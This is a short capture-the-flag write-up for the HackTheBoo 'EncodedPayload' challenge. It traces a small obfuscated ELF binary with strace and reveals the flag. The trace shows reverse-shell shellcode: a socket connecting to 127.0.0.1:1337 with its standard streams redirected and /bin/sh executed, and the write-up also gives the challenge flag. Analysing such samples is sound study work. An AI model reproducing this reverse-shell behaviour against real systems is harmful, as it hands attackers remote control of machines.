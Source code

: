 # EncodedPayload

## The Problem

Points: 

Rating:

Author:

Flavor Text:
```




```

Attachments : [encodedpayload](encodedpayload)



## Solution

review the hex, looks like a very small elf program

mark as executable and run it, things exit cleanly

strace it to see the stack process and open in bin ninja for a look. it is all assembly wiht a bunch of jumps and edits on scrambled data but it ends up in the stack at the end. 

strace ./encodedpayload

results in: 
execve("./encodedpayload", ["./encodedpayload"], 0x7ffcbee97080 /* 56 vars */) = 0
[ Process PID=139854 runs in 32 bit mode. ]
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
dup2(3, 2)                              = 2
dup2(3, 1)                              = 1
dup2(3, 0)                              = 0
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("127.0.0.1")}, 102) = -1 ECONNREFUSED (Connection refused)
syscall_0xffffffffffffff0b(0xffc23f58, 0xffc23f50, 0, 0, 0, 0) = -1 ENOSYS (Function not implemented)
execve("/bin/sh", ["/bin/sh", "-c", "echo HTB{PLz_strace_M333}"], NULL) = 0
[ Process PID=139854 runs in 64 bit mode. ]
brk(NULL)                               = 0x55fccf5df000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 4
fstat(4, {st_mode=S_IFREG|0644, st_size=131663, ...}) = 0
mmap(NULL, 131663, PROT_READ, MAP_PRIVATE, 4, 0) = 0x7f082a6c7000
close(4)                                = 0
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 4
read(4, "\177ELF\2\1\1\3\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@>\2\0\0\0\0\0"..., 832) = 832
fstat(4, {st_mode=S_IFREG|0755, st_size=1905632, ...}) = 0
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f082a6c5000
mmap(NULL, 1918592, PROT_READ, MAP_PRIVATE|MAP_DENYWRITE, 4, 0) = 0x7f082a4f0000
mmap(0x7f082a512000, 1417216, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 4, 0x22000) = 0x7f082a512000
mmap(0x7f082a66c000, 323584, PROT_READ, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 4, 0x17c000) = 0x7f082a66c000
mmap(0x7f082a6bb000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 4, 0x1ca000) = 0x7f082a6bb000
mmap(0x7f082a6c1000, 13952, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f082a6c1000
close(4)                                = 0
arch_prctl(ARCH_SET_FS, 0x7f082a6c6580) = 0
mprotect(0x7f082a6bb000, 16384, PROT_READ) = 0
mprotect(0x55fccf136000, 8192, PROT_READ) = 0
mprotect(0x7f082a712000, 4096, PROT_READ) = 0
munmap(0x7f082a6c7000, 131663)          = 0
getuid()                                = 1000
getgid()                                = 1001
getpid()                                = 139854
rt_sigaction(SIGCHLD, {sa_handler=0x55fccf12ba20, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7f082a528d60}, NULL, 8) = 0
geteuid()                               = 1000
getppid()                               = 139851
brk(NULL)                               = 0x55fccf5df000
brk(0x55fccf600000)                     = 0x55fccf600000
getcwd("/home/ironman/CaptureTheFlag-Writeups/2022/HackTheBoo/EncodedPayload", 4096) = 69
geteuid()                               = 1000
getegid()                               = 1001
rt_sigaction(SIGINT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGINT, {sa_handler=0x55fccf12ba20, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7f082a528d60}, NULL, 8) = 0
rt_sigaction(SIGQUIT, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7f082a528d60}, NULL, 8) = 0
rt_sigaction(SIGTERM, NULL, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGTERM, {sa_handler=SIG_DFL, sa_mask=~[RTMIN RT_1], sa_flags=SA_RESTORER, sa_restorer=0x7f082a528d60}, NULL, 8) = 0
write(1, "HTB{PLz_strace_M333}\n", 21)  = -1 EPIPE (Broken pipe)
--- SIGPIPE {si_signo=SIGPIPE, si_code=SI_USER, si_pid=139854, si_uid=1000} ---
+++ killed by SIGPIPE +++


its naked in the last write


## Flag
```
HTB{PLz_strace_M333}
```

## Final Notes
